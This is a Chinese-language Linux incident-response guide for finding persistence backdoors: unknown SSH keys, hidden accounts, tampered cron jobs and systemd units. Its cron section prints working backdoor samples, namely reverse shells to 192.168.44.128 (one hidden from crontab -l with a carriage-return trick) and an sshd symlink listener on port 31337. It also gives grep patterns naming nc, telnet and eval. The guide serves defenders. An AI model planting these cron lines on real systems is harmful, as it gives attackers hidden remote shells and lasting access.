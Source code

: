 ## 1 非提权类型后门排查

### 1.1 后门账户

攻击者拥有账户权限后，想达到长期驻留系统时往往不修改账户密码，而是采取加用户或写公钥的方式。

排查过程中主要关注： 

(1)	检查免口令认证公钥。

有公钥输出就要确认该公钥是否属于运维人员自己的公钥。该公钥是否被用于登录。

```shell
for i in `cat /etc/passwd|grep "/bash"|awk -F: '{print $6}'`;do cat ${i}/.ssh/authorized_keys ;done
```

找到未知公钥后可以参考下面的方法，计算出公钥的指纹信息，再在日志里面搜索，进而确定该公钥是否已被用于登录。如果搜索出来的信息关联到了一个IP，自行确认IP信息后，可以确定系统内插了个后门账户。

```shell
grep -rn `sed -n '${line_num}p' ~${user}/.ssh/authorized_keys |ssh-keygen -lf -|awk '{print $2}'` /var/log
```

(2)	检查系统账户配置文件。

```shell
cat /etc/passwd | awk -F: '{print $3"  "$1}'|sort -n 
#存在多个相同的uid说明有隐藏账户。
```

自行观察账户文件底部的是否有新增用户，名称，家目录是否具有迷惑性。

### 1.2 篡改计划任务

分析定时任务文件中是否存在定时创建socket,定时外发文件的动作。简单的排查命令如下：
```shell
grep -rn "/dev/\| nc\|sh\|telnet\|*cat\|awk\|system\|eval\|socket\|exec" /var/spool/*cron/
grep -rn "/dev/\| nc\|sh\|telnet\|*cat\|awk\|system\|eval\|socket\|exec" /etc/*cron*
```

几个常见的定时任务后门的形式：
```shell
crontab -l | { cat; echo "*/1 * * * * bash -i >& /dev/tcp/192.168.44.128/2333 0>&1"; } | crontab -
(crontab -l;printf "*/1 * * * * bash -i >& /dev/tcp/192.168.44.128/5555 0>&1;\rno crontab for `whoami`%100c\n")|crontab -
echo ' * */5 * * * root ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31337' >> /etc/crontab
```

### 1.3 服务型后门

#### 1.3.1 systemd后门

参考 0x06 自启动任务排查，关注以下目录中是否存在后门指令。

```shell
/etc/systemd/system/
/run/system/system/
[/usr]/lib/systemd/system/
/etc/rc.*    
```
